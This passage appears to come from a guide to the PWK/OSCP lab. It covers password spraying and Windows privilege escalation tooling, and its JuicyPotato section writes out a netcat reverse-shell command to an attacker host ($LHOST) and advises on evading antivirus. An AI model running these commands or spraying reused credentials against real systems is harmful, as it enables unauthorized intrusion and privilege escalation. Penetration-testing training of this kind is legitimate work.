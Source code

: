 **Password spraying**

One of the fun -and frustrating- factors in the PWK labs is the  inter-relation between machines. I would strongly recommend keeping an  elaborate master-password list of all the passwords and Windows hashes  you found, so that you can occasionally use those to see if passwords  are re-used anywhere. Tools like Hydra, CrackMapExec, or Metasploit can  be used to do this effectively.

## Privilege Escalation

Privilege escalation is entirely different for Windows and Linux  systems. In general, it pays to have an eye for detail and a large  arsenal of tools that can help enumerate and exploit.

> Again, don’t forget to 👏ENUMERATE👏EVERYTHING👏

### Windows

I generally check my permissions (`whoami /all`) and the filesystem (`tree /f /a` from the `C:\Users` directory) for quick wins or interesting files (especially user home  folder and/or web directories). If I don’t find anything, I then run a  tool like `winPEAS.exe` (from [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)) to identify any vulnerabilities. Things to look for in enumeration results:

- Default credentials, try them to pivot to other users.
- Open ports, are there any services that are listening on 127.0.0.1 only? Look for exploits.
- Running software, what is non-default? Look for exploits.
- Unquoted service paths, do they exist? Could you write a malicious binary and restart affected services?
- Modifiable service binaries, do they exist? Do they run as `SYSTEM` or an admin user?

If nothing obvious comes out of `WinPEAS`, I usually run `Invoke-AllChecks` from [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc), which does similar checks but sometimes also catches additional vulnerabilities.

If all else fails I start looking for OS-level exploits, especially on older systems. [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) helps for this: you can run it from Kali and only need the output of `SystemInfo`. It also helps to sometimes google for privilege escalation  vulnerabilities for the exact OS version - an interesting example I used once for PWK is [ComaHawk](https://github.com/apt69/COMahawk) (works on relatively recent Windows 10 systems).

Some other notable examples are discussed in the sections below.

#### JuicyPotato

Relevant if you have the `SeImpersonatePrivilege` and the OS version is *older than* Server 2019 or Windows 10. I’ve had the biggest successes by using a neutral binary such as `nc.exe` or `nc64.exe` from [here](https://eternallybored.org/misc/netcat/). If you create a `bat` file with the command call, it should evade most AV and give you a privileged shell.

Grab a CLSID from [here](https://ohpe.it/juicy-potato/CLSID/), it may take a couple of different attempts to get a working CLSID.

```cmd
# On target system, after copying required binaries
echo C:\temp\nc64.exe -e cmd.exe $LHOST 443 > rev.bat
.\JuicyPotato.exe -l 1337 -p C:\temp\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```
